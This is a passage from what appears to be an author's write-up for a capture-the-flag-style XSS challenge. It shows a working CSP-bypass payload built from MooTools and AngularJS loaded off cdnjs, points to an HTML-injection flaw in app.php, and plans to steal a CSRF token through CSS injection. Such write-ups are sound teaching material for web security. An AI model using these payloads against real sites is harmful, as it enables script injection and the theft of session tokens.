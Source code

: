 The result is:

![](/img/intigriti-0822-xss-author-writeup/p3.png)

So, we can replace `prototype.js` with `MooTools`: 

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{[].empty.call().alert([].empty.call().document.domain)}}
</div>
```

What if the players never heard about `SmoothGate`? They can use the similar approach in an automatic way.

`cdn.js` provides an [API](https://cdnjs.com/api#browse) to query all hosted libraries, the player can leverage this API and the script above to build a simple tool to find all gadgets on `cdn.js`. 

I will open source a project about this within a few days.

Now we have an XSS, but it still need user interaction to submit the form.

In order to avoid user interaction, we need CSRF. To perform CSRF, we need to steal CSRF token.

### Steal CSRF token

Where is the CSRF token?

The CSRF token is in the `app.php` page, it appears twice:

``` html
<meta name="csrf-token" content="<?= $csrf_token ?>"> 

<div>
  <input type="hidden" name="csrf-token" value="<?= $csrf_token ?>" />
</div>
```

There is another vulnerability in `app.php`:

```php
<input id="nameField" type="text" name="name" value="<?= $_SESSION['name']; ?>" maxlength="20">
```

`$_SESSION['name']` is not encoded before printing, so we have a HTML injection here. But the problem is, there is another check for the length of the name:

```php
if (strlen($name) >= 20) {
  die('name too long');
}
```

Given that the CSP is strict and the length is very limited, XSS is most likely impossible. It's fine, because XSS is not the only way to steal something,  we can use CSS injection!

This is a good article to learn what CSS injection is and various way to exploit: [CSS Injection Primitives](https://web.archive.org/web/20240324012538/https://x-c3ll.github.io/posts/CSS-Injection-Primitives/).
